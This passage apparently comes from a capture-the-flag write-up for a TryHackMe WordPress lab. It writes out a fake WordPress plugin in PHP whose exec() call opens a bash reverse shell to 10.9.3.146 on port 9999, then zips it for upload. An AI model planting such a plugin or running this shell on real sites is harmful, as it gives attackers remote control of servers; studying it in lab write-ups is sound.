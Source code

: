 Version of Wordpress:

![519ef1f40fcd00c0ac7fcf590be4e931.png](https://raw.githubusercontent.com/mor88888888/writeups/main/internal/_resources/519ef1f40fcd00c0ac7fcf590be4e931.png)

I can't see any exploit for this version. But we are admins, we can install anything, also a reverse shell:
```
vim shell.php
```
```
<?php

/**
* Plugin Name: Reverse Shell Plugin
* Plugin URI:
* Description: Reverse Shell Plugin
* Version: 1.0
* Author: Hacker
* Author URI: https://tryhackme.com
*/

exec("/bin/bash -c 'bash -i >& /dev/tcp/10.9.3.146/9999 0>&1'")

?>
```
```
zip shell.zip shell.php
```
